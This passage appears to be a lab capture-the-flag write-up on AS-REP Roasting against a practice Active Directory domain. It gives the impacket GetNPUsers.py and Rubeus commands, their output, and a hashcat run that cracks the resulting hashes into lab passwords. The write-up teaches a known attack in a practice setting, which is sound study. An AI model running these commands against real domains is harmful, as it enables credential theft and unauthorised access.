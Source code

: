 ### AS-REP Roasting

- If the user has the `Kerberos Pre-authentication` disabled, AS_REP Roasting dumps the `krbasrep5` hashes of the user account

---
> If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline
---
> Cracking the ticket provides the password for the user, since the ticket is encrypted with users password
---

#### AS_REPRoasting With impackets

- Identify valid users with `kerbrute`
- Get users TGT with `GetNPUsers.py`

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ GetNPUsers.py controller.local/ -no-pass -usersfile User.txt -ouputfile impackets-npusers.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[..snip..]
[-] User admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[..snip..]
[-] User user1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User user2 doesn't have UF_DONT_REQUIRE_PREAUTH set
```

#### AS_REPRoasting With rubeus

```powershell
rubues.exe asreproast
```

#### Cracking the hash (AS_REP Roasting)

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]                                                                                              
└─$ hashcat -m 18200 impackets-npusers.out Pass.txt 

[..snip..]
$krb5asrep$23$user3@CONTROLLER.LOCAL:266ae...2428f:Password3
$krb5asrep$23$admin2@CONTROLLER.LOCAL:d3197...426cc:P@$$W0rd2
[..snip..]
```

### Kerberoastable Users
